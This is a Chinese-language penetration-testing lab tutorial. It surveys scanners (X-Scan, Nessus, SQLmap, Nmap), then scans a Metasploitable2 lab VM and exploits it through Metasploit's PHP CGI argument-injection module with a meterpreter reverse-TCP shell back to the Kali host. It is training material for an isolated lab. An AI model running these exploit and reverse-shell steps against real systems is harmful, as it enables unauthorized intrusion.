










# Kali 常用漏洞扫描工具实战

## 一、实验简介

### 1.1 实验介绍

本实验在实验楼的 Kali 终端下进行，对实验楼提供的目标靶机 Metasploitable2 进行渗透扫描和攻击。重点介绍漏洞扫描工具的使用。实验的末尾，留有相应的推荐阅读和课后作业，帮助大家，加深对漏洞扫描工具的理解。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

### 1.2 实验知识点

本实验通过对实验楼目标靶机 Metasploit 的渗透扫描，进行必要的信息收集。这一阶段的准备工作，为后面的渗透攻击打下坚实的基础。本实验的主要知识点如下：


### 1.3 实验环境

实验在实验楼的环境中进行，本实验由实验楼提供两台虚拟机，分别是攻击机和目标靶机。这两台虚拟机的主机名称，主机名，以及 IP 地址分别如下：

| 主机     | 主机名称        | 主机名 | IP 地址         |
| -------- | --------------- | ------ | --------------- |
| 攻击机   | Kali Linux 2.0  | Kali   | 192.168.122.101 |
| 目标靶机 | Metasploitable2 | target | 192.168.122.102 |


本实验在实验楼的环境下进行。在实验楼的环境中，采用的实验环境包含两台虚拟机，分别是攻击机和靶机，攻击机和靶机的账户和密码参数思维导图如下：


## 二、环境启动

### 2.1 实验环境启动

在实验桌面中，双机 Xfce 终端，打开终端，后续所有的操作命令都在这个终端中输入。

首先使用 `virsh list` 命令查看当前环境中虚拟机的列表和状态，注意需要使用 sudo，另外需要加上参数 `--all` 才会显示所有关机状态的虚拟机：


然后我们使用 `virsh start` 命令启动虚拟机，再次查看状态虚拟机已经进入 running 状态：


注意由于虚拟机启动需要时间，大概要等四分钟左右我们就可以使用 SSH 访问两台虚拟机了。

首先使用 SSH 连接到 Kali，我们大部分的攻击操作都需要在 Kali 虚拟机中进行，注意用户名root，密码 toor 是不显示的，使用命令 `ssh root@kali` 即可，因为当前实验环境中已经把 IP 地址和主机名的对应写入到了 `/etc/hosts` 文件中，避免输入不好记的 IP 地址：


现在两台实验环境都已经启动，我们可以开始渗透测试实验了。

## 三、 常用扫描工具介绍

### 3.1 X-scan 漏洞扫描工具

> X-Scan 是国内最著名的综合扫描器之一，它完全免费，是不需要安装的绿色软件、界面支持中文和英文两种语言、包括图形界面和命令行方式。

该漏洞扫描工具，主要由国内著名的民间黑客组织“安全焦点”完成，从2000年的内部测试版 X-Scan V0.2 到目前的最新版本 X-Scan 3.3-cn 都凝聚了国内众多黑客的心血。最值得一提的是，X-Scan 把扫描报告和安全焦点网站相连接，对扫描到的每个漏洞进行“风险等级”评估，并提供漏洞描述、漏洞溢出程序，方便网管测试、修补漏洞。




X-Scan 是一款网络/操作系统弱点扫描工具，它的代码是开源的。

### 3.2 Nessus 漏洞扫描工具

> Nessus 是目前全世界最多人使用的系统漏洞扫描与分析软件。总共有超过75,000个机构使用 Nessus  作为扫描该机构电脑系统的软件。

1998年，Nessus 的创办人Renaud Deraison 展开了一项名为 "Nessus" 的计划，其计划目的是希望能为互联网社群提供一个免费、威力强大、更新频繁并简易使用的远端系统安全扫描程式。2002年时，Renaud与Ron Gula, Jack Huffard 创办了一个名为 Tenable Network  Security 机构。在第三版的 Nessus 释出之时，该机构收回了 Nessus 的版权与程式源代码（原本为开放源代码），并注册了 nessus.org 成为该机构的网站。目前此机构位于美国马里兰州的哥伦比亚。


该工具，也是网络/操作系统（Linux,Windows）弱点扫描常用的工具，它的代码也是开源的。

### 3.3 SQLmap 工具

> SQLmap 是一个自动化的 SQL 注入工具，其主要功能是扫描，发现并利用给定的 URL 的 SQL 注入漏洞。

该工具目前支持的数据库是 MS-SQL , MYSQL, ORACLE 和 POSTGRESQL。SQLMAP 采用四种独特的 SQL 注入技术，分别是盲推理 SQL 注入，UNIO N查询 SQL 注入，堆查询和基于时间的SQL盲注入。其广泛的功能和选项包括数据库指纹，枚举，数据库提取，访问目标文件系统，并在获取完全操作权限时实行任意命令。Sqlmap 的功能强大到让你惊叹，常规注入工具不能绕过的话，终极使用 Sqlmap 会有意想不到的效果。

### 3.4 Nmap 漏洞扫描工具

Nmap 在前面的课程，已经做过一些必要的介绍。Nmap 是一款非常好用的漏洞扫描工具。其强大的功能令人叹为观止。下面让我们在实验楼的环境中，继续使用该工具，对所需要进行渗透的目标靶机，进行渗透。

本实验提供的环境由为实验楼的 Kali 虚拟主机和 Metasploitable2 目标靶机。首先在 Kali 终端中，输入命令，打开数据库连接：

```
# 打开 metasploit 的数据库连接
sudo service postgresql start

# 初始化数据库
msfdb init

# 启动 msfconsole，启动若是报错，则需要再等待一段时间再执行此语句
sudo msfconsole
```
如果一切顺利，你将会看到如下画面：




使用漏洞扫描工具 Nmap 对所要进行渗透的目标主机进行渗透扫描，在实验楼 Kali 终端中，输入命令：

```
# 使用 nmap 扫描主机
nmap -sS -T4 target
```



其中，扫描神器 nmap 参数所代表的含义分别是：

| 参数  | 所代表含义                                                   |
| ----- | ------------------------------------------------------------ |
| `-sS` | TCP SYN 扫描，又称半开放,或隐身扫描                          |
| `-T4` | 设定 nmap 扫描的时间策略，数字为0-6，越大越快。扫描的越慢则越不容易被发现，也不会给目标带来太大的网络流量 |


## 四、结合漏洞进行渗透攻击

### 4.1 选择漏洞端口

由扫描神器 nmap 发现，渗透目标主机端口 80 处于开放状态。所以我们选择 80 号端口进行渗透测试。

在实验楼的浏览器中，输入地址，可以看到需要渗透的目标主机的 80 号端口处于开放的状态：

```
192.168.122.102:80
```



接着通过 `search` 命令，我们可以找到该攻击模块：





```
# 由 search 找到的攻击模块
# 通过 use 命令使用该模块

use exploit/multi/http/php_cgi_arg_injection

# 并由 show options 命令，查看模块所需选项
show options
```



接着设置渗透目标靶机地址参数：

```
# 设置目标靶机 IP 地址参数
set RHOST 192.168.122.102
```


```
# show 显示可用模块
show payloads
```




```
# set 命令，使用 PAYLOAD 模块
set PAYLOAD php/meterpreter/reverse_tcp

```


```
# 使用 show 命令，在进行参数查看
show options

```



设置本地主机的 IP 地址参数 LHOST：

```
# 设置本地主机的 IP 地址参数
set LHOST 192.168.122.101
```


### 4.2 进行渗透攻击

当进行到这步的时候，在实验楼的 Kali 的 MSF 终端中，已经设置好了所需的必要参数，接下来让我们输入渗透攻击命令即可：

```
# 使用 exploit 命令，进行渗透攻击
exploit

```
渗透成功后，你将会见到如下界面：


下面让我们输入命令，验证渗透成功，在实验楼 Kali 的 MSF 终端中输入命令，如下图，查看渗透靶机的系统信息：

```
#　使用命令，查看渗透靶机的信息
sysinfo
```




## 五、总结

在本实验的学习过程中，我们对 Kali 漏洞扫描工具 Nmap 的理解，得到了进一步的加深。对于一些常用的 Nmap 命令，如：

```
# 扫描目标主机语法
nmap -sS -T4 <target ip>
```
等，希望同学们能够熟记于心。在结合理论基础的同时，还要亲自去验证理论的可行性。只有亲自动手去实践，才能提高自己的动手能力，从而更好地加深自己对 IT 渗透攻击的理解。

## 六、推荐阅读

### 6.1 推荐阅读

我们知道，通常的黑客攻击包括预攻击、攻击和后攻击三个阶段：


预攻击阶段主要指一些信息收集和漏洞扫描的过程；攻击过程主要是利用第一阶段发现的漏洞或弱口令等脆弱性进行入侵。

后攻击是指在获得攻击目标的一定权限后，对权限的提升、后面安装和痕迹清除等后续工作。

而第一阶段的信息收集和漏洞扫描，是极其重要的。下面推荐大家阅读一些关于漏洞扫描工具的文档，用以加深对扫描工具的理解：

> https://www.offensive-security.com/metasploit-unleashed/vulnerability-scanning/


## 七、课后作业

通过在实验楼的学习，掌握理论基础的同时，提高了自己的动手能力。在学习了本实验后，还需要做一些课后作业巩固知识。本节课的课后作业为：

- 了解 Kali 常用漏洞扫描工具的理论基础
- 掌握 Kali 常用漏洞扫描工具的用法
- 阅读推荐阅读的课后文档（可选）

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。